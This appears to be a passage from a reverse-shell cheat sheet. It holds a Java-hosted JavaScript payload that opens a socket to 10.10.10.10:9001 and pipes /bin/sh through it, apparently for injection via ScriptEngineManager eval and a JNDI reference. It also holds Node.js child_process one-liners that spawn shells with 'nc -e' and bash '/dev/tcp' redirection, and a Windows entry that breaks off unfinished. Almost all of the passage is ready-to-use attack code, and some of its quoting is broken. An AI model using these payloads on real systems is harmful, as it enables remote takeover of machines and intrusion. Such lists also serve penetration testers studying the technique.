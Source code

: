 
## Javascript
Replace `var cmd = 'powershell.exe'` for different shells
```js
String command = "var host = '10.10.10.10';" +
                       "var port = 9001;" +
                       "var cmd = '/bin/sh';"+
                       "var s = new java.net.Socket(host, port);" +
                       "var p = new java.lang.ProcessBuilder(cmd).redirectErrorStream(true).start();"+
                       "var pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();"+
                       "var po = p.getOutputStream(), so = s.getOutputStream();"+
                       "print ('Connected');"+
                       "while (!s.isClosed()) {"+
                       "    while (pi.available() > 0)"+
                       "        so.write(pi.read());"+
                       "    while (pe.available() > 0)"+
                       "        so.write(pe.read());"+
                       "    while (si.available() > 0)"+
                       "        po.write(si.read());"+
                       "    so.flush();"+
                       "    po.flush();"+
                       "    java.lang.Thread.sleep(50);"+
                       "    try {"+
                       "        p.exitValue();"+
                       "        break;"+
                       "    }"+
                       "    catch (e) {"+
                       "    }"+
                       "}"+
                       "p.destroy();"+
                       "s.close();";
String x = "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\""+command+"\")";
ref.add(new StringRefAddr("x", x);

```


## Node.js
```js
require('child_process').exec('nc -e sh 10.10.10.10 9001')
```


```js
require('child_process').exec('bash -c 'exec bash -i &>/dev/tcp/10.10.10.10/31337 <&1')
```

Windows 
```js
require('child_process').exec('
```
